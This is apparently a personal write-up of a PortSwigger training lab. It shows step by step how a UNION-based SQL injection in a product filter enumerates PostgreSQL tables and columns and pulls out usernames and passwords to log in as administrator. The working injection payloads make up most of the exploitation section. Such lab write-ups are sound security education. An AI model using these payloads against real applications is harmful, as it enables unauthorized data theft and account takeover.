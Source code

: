 # SQL injection attack, listing the database contents on non-Oracle databases | Dec 5, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle), you'll learn: SQL injection attack, listing the database contents on non-Oracle databases! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205063122.png)

**In the previous labs, we found an SQL injection vulnerability in the product category filter:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205063233.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205063256.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205063343.png)

And we found **there are 2 columns in the current table, and both columns are accepting string data type.**

**To extract the username and password of all users, I'll:**

- Find out which DBMS(Database Management System) and it's version:

```sql
' UNION SELECT NULL,version()-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205063458.png)

- DBMS information: PostgreSQL version 12.12

Then we can list all the table names.

- List all the table names:

```sql
' UNION SELECT NULL,table_name FROM information_schema.tables-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205065438.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205065449.png)

That's way too many tables. Let's **exclude all the `pg` tables, which is the PostgreSQL default tables.**

- Excluding `pg` tables:

```sql
' UNION SELECT NULL,table_name FROM information_schema.tables WHERE table_name NOT LIKE '%pg%'-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205065559.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205065617.png)

After some filtering, I found the `users_zmlpng` table look sussy. Let's **list all column names of this table**.

- List all column names of table `users_zmlpng`:
```sql
' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users_zmlpng'-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205065749.png)

It has 2 columns: `username_hrympe` and `password_gxucte`. Let's extract those data!

- Extracting table `users_zmlpng` data:

```sql
' UNION SELECT NULL,username_hrympe||':'||password_gxucte FROM users_zmlpng-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205065910.png)

We found `administrator` password!

- Username: administrator
- Password: 5eg7nhvdr5aag5h4n4i4

**Let's login as `administrator`!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205065956.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205070008.png)

We're user `administrator`!!

# What we've learned:

1. SQL injection attack, listing the database contents on non-Oracle databases